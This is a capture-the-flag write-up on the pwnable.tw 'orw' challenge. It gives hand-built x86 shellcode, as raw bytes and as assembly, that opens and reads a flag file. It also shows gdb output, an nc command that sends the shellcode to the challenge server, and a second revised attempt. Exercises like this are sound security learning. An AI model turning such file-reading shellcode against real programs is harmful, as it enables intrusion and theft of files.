 ```
\xB8\x05\x00\x00\x00\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x6F\x6D\x65\x2F\x68\x2F\x68\x00\x00\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x89\xC7\x89\xFB\xB8\x03\x00\x00\x00\x89\xE1\xBA\x01\x00\x00\x00\xCD\x80\x40\x31\xDB\x89\xE1\xCD\x80\x83\xF9\x00\x75\xE4
```

First attempt was a *disasterous failure*. The program fell into an infinite loop. See the embarassing output below.
```

(gdb) run < exploit\ for\ orw 
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/solomonbstoner/Desktop/orw < exploit\ for\ orw
Give my your shellcode:
Breakpoint 2, 0x0804858a in main ()
=> 0x0804858a <main+66>:	ff d0	call   eax
(gdb) ni
^C
Program received signal SIGINT, Interrupt.
0x0804a09a in shellcode ()
=> 0x0804a09a <shellcode+58>:	83 f9 00	cmp    ecx,0x0
(gdb) 

```
When I tested with the actual server, I *do not know* why but there was no output. My shellcode was supposed to output a shellcode. (╯°□°）╯︵ ┻━┻ 
```
solomonbstoner@swjsUbuntu:~/Desktop$ cat exploit\ for\ orw | nc chall.pwnable.tw 10001
Give my your shellcode:solomonbstoner@swjsUbuntu:~/Desktop$ cat exploit\ for\ orw | nc chall.pwnable.tw 10001
```

#### Reattempting the challenge

Perhaps what I did was too complicated. So I decided to, instead of reading and writing one character of the flag at a time, I would read multiple characters at once, then write them out together.
This is my Second attempt:
```
mov eax, 0x5
push 0x0
push 0x67616c66
push 0x2f77726f
push 0x2f656d6f
push 0x682f0000
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
push eax
mov eax, 0x3
pop ebx
mov ecx,0x804a100
mov edx, 0x28
int 0x80
mov al, 0x4
xor ebx,ebx
mov ecx, 0x804a100
int 0x80

String literal:
\xB8\x05\x00\x00\x00\x6A\x00\x68\x66\x6C\x61\x67\x68\x6F\x72\x77\x2F\x68\x6F\x6D\x65\x2F\x68\x00\x00\x2F\x68\x89\xE3\x31\xC9\x31\xD2\xCD\x80\x50\xB8\x03\x00\x00\x00\x5B\xB9\x00\xA1\x04\x08\xBA\x28\x00\x00\x00\xCD\x80\xB0\x04\x31\xDB\xB9\x00\xA1\x04\x08\xCD\x80
```

